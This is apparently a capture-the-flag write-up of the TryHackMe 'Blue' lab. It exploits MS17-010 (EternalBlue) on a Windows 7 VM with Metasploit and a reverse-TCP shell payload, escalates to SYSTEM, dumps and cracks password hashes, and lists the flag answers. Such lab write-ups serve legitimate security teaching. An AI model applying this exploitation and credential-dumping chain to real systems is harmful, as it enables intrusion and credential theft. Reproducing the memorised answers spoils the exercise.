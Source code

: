 ```yaml
---
title: "[THM] Blue"
author: "Wook Lee"
date: "2024-07-25"
tags: ["TryHackMe"]
---
```


#### How many ports are open with a port number under 1000?

```
3
```

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV 10.10.75.102 --min-rate 3000 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-25 12:11 EDT
Nmap scan report for 10.10.75.102
Host is up (0.093s latency).
Not shown: 65526 closed tcp ports (conn-refused)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2024-07-25T16:13:32+00:00
|_ssl-date: 2024-07-25T16:13:37+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2024-07-24T16:09:38
|_Not valid after:  2025-01-23T16:09:38
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

<br>

#### What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

```
ms17-010
```

![alt text](image.png#center)

<br>

#### Start Metasploit

#### Find the exploitation code we will run against the machine. What is the full path of the code?

```
exploit/windows/smb/ms17_010_eternalblue
```

![alt text](image-1.png#center)

<br>

#### Show options and set the one required value. What is the name of this value? (All caps for submission)

```
RHOSTS
```

![alt text](image-2.png#center)

<br>

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

`set payload windows/x64/shell/reverse_tcp`.

![alt text](image-3.png#center)

<br>

With that done, run the exploit!

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL+Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

<br>

Successfully ran the exploit and captured the shell.
![alt text](image-4.png#center)

<br>

#### If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

```
post/multi/manage/shell_to_meterpreter
```

To convert a shell to Meterpreter shell in Metasploit, list all sessions by `sessions -l` and note the ID of the shell session you want to upgrade. Then upgrade the shell session to a Meterpreter session by `sessions -u <id>`.

![alt text](image-5.png#center)

<br>

#### Select this (use MODULE_PATH). Show options, what option are we required to change?

```
SESSION
```

![alt text](image-6.png#center)

<br>

#### once the meterpreter shell conversion completes, select that session for use.

![alt text](image-7.png#center)

<br>

#### Verify that we have escalated to NT AUTHORITY\SYSTEM. Run `getsystem` to confirm this. Feel free to open a dos shell via command `shell` and run `whoami`. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

<br>

#### List all of the processes running via the `ps` command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id.

```
716
```

![alt text](image-8.png#center)

<br>

#### Migrate to this process using the `migrate <process id>` command where the process id is the one you just wrote down in the previous step. This may take serveral attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again.

![alt text](image-9.png#center)

<br>

#### Within our elevated meterpreter shell, run the command `hashdump`. This will dump all of the password on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

```
Jon
```

![alt text](image-10.png#center)

<br>

#### Copy this password hash to a file and research how to crack it. What is the cracked password?

```
alqfna22
```

![alt text](image-11.png#center)

<br>

#### Flag1? This flag can be found at the system root.

```
flag{access_the_machine}
```

```shell
meterpreter > cd ..
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-12 22:13:36 -0500  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 01:08:56 -0400  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-13 23:20:08 -0400  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-17 18:22:01 -0400  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-17 18:28:38 -0400  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-17 18:35:57 -0400  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-12 22:13:22 -0500  Recovery
040777/rwxrwxrwx  4096   dir   2024-07-25 13:49:19 -0400  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-12 22:13:28 -0500  Users
040777/rwxrwxrwx  16384  dir   2019-03-17 18:36:30 -0400  Windows
100666/rw-rw-rw-  24     fil   2019-03-17 15:27:21 -0400  flag1.txt
000000/---------  0      fif   1969-12-31 19:00:00 -0500  hiberfil.sys
000000/---------  0      fif   1969-12-31 19:00:00 -0500  pagefile.sys

meterpreter > cat flag1.txt
flag{access_the_machine}
```

<br>

#### Flag2? This flag can be found at the location where passwords are stored within Windows.

\*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It maybe necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.

```
flag{sam_database_elevated_access}
```

The SAM (Security Accounts Manager) database stores hashed passwords for local user accounts. It is part of the Windows registry and is loaded into memory during the system boot process. The hashes are stored and can be accessed with tools that have sufficient privileges.

Location: `C:\Windows\System32\config\SAM`

![alt text](image-12.png#center)

<br>

#### Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.

```
flag{admin_documents_can_be_valuable}
```

![alt text](image-13.png#center)

```shell
meterpreter > cat c:/Users/Jon/Documents/flag3.txt
flag{admin_documents_can_be_valuable}
```

<br>
